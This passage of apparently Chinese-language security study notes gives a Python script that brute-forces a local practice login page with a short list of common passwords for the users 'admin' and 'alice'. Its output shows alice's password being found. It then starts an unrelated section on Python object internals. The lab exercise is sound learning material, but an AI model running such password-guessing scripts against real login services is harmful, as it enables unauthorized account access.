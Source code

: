 爆破脚本如下

```python
# brute.py
import requests, sys
URL="http://127.0.0.1:8888/login"
USER= ['admin','alice']

DEFAULT_WORDLIST = [
    '123456', 'password', 'qwerty', 'letmein', 'admin', 'iloveyou', 'welcome', 'password123'
]
words = DEFAULT_WORDLIST
for i in USER:
    for pwd in words:
        print("尝试用户",i,"密码",pwd)
        if "OK" in requests.post(URL, data={"u": i, "p": pwd}).text:
            print("密码找到了:", pwd)
            break
        else:
            print("密码错误:", pwd)
    print("用户",i,"密码爆破完成")

```

最后响应

```python
❯ python .\baopao.py
尝试用户 admin 密码 123456
密码错误: 123456
尝试用户 admin 密码 password
密码错误: password
尝试用户 admin 密码 qwerty
密码错误: qwerty
尝试用户 admin 密码 letmein
密码错误: letmein
尝试用户 admin 密码 admin
密码错误: admin
尝试用户 admin 密码 iloveyou
密码错误: iloveyou
尝试用户 admin 密码 welcome
密码错误: welcome
尝试用户 admin 密码 password123
密码错误: password123
用户 admin 密码爆破完成
尝试用户 alice 密码 123456
密码找到了: 123456
用户 alice 密码爆破完成
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753186715152-2f9c96d7-1fc3-4a51-a710-6eb81ba14e2b.png)

## Python 的特性
### 一切皆对象
+ 基本类型如 `int`, `str`, `list`, `function`, `module` 都是对象。
+ 每个对象都可以访问其类（`__class__`）与继承链（`__mro__`）等元信息。
